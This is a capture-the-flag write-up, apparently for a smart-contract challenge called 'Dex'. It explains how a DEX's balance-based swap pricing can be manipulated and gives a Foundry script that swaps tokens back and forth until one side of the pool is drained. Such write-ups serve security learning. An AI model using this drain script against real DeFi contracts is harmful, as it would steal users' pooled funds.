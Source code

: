 # Dex   
The objective of this challenge is to drain all of one type of tokens from the `DEX` pool. The key to solving this challenge lies in exploiting the price manipulation vulnerability in the `swap` function.

The DEX calculates the swap price using the following formula:  
```solidity
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
This formula determines the exchange rate based on the current balances of the tokens in the pool. However, since the price is recalculated after each `swap`, we can exploit this to gradually drain one type of token from the pool.

#### Exploitation Strategy
1. Swap Tokens: Repeatedly `swap` one token for the other, taking advantage of the price recalculation to get more tokens with each swap.
2. Drain the Pool: Continue swapping until one of the token balances in the pool is completely drained.

I created a script to automate the exploitation process:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Script, console2} from "forge-std/Script.sol";

interface IDex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address from, address to, uint256 amount) external;
    function getSwapPrice(address from, address to, uint256 amount) external view returns (uint256);
    function approve(address spender, uint256 amount) external;
    function balanceOf(address token, address account) external view returns (uint256);
}

contract SolvingScript is Script {
    address victim = ; // Your instance address
    IDex dex = IDex(victim);
    address token1 = dex.token1();
    address token2 = dex.token2();

    function run() public {
        vm.startBroadcast();

        dex.approve(victim, type(uint256).max);

        vm.stopBroadcast();

        drainTokens();
    }

    function drainTokens() internal {
        uint256 dexToken1 = dex.balanceOf(token1, victim);
        uint256 dexToken2 = dex.balanceOf(token2, victim);

        while (dexToken1 > 0 || dexToken2 > 0) {
            vm.startBroadcast();
            uint256 myToken1 = dex.balanceOf(token1, msg.sender);
            uint256 myToken2 = dex.balanceOf(token2, msg.sender);
            dexToken1 = dex.balanceOf(token1, victim);
            dexToken2 = dex.balanceOf(token2, victim);
            uint256 maxSwap1 = dex.getSwapPrice(token1, token2, dexToken1);
            uint256 maxSwap2 = dex.getSwapPrice(token2, token1, dexToken2);

            if (maxSwap1 > myToken1 && maxSwap2 > myToken1 && maxSwap1 > myToken2 && maxSwap2 > myToken2) {
                if (myToken1 == 0) {
                    dex.swap(token2, token1, myToken2);
                } else {
                    dex.swap(token1, token2, myToken1);
                }
            } else {
                if (myToken1 == 0) {
                    dex.swap(token2, token1, maxSwap1);
                    break;
                } else {
                    dex.swap(token1, token2, maxSwap2);
                    break;
                }
            }
            vm.stopBroadcast();
        }
        uint256 myToken1 = dex.balanceOf(token1, msg.sender);
        uint256 myToken2 = dex.balanceOf(token2, msg.sender);
        dexToken1 = dex.balanceOf(token1, victim);
        dexToken2 = dex.balanceOf(token2, victim);
        console2.log(myToken1, myToken2, dexToken1, dexToken2);
    }
}
```